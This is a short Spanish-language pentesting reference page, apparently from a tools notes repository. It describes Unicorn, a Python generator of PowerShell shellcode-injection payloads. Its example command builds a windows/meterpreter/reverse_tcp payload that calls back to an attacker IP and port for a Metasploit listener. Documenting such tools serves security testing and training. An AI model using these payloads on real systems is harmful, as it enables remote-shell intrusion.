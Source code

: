 ### **Explotación/Generación de Payloads/unicorn.md**

# Unicorn

## Descripción

**Unicorn** es una herramienta en Python para generar payloads que explotan técnicas de inyección de código en memoria, como el ataque de `shellcode` en PowerShell. Facilita la creación de scripts para pruebas de penetración.

## Uso

```bash
python unicorn.py [payload] [ip] [puerto]
```

### Opciones principales

- **Payloads soportados**: Especifica el tipo de payload a generar (ej. `windows/meterpreter/reverse_tcp`).
- **Dirección IP**: IP del atacante para la conexión inversa.
- **Puerto**: Puerto que escuchará el atacante.

## Ejemplos

- Generar un payload PowerShell:

  ```bash
  python unicorn.py windows/meterpreter/reverse_tcp 192.168.1.100 4444
  ```

- El script generará un archivo con el código PowerShell y un listener para Metasploit.
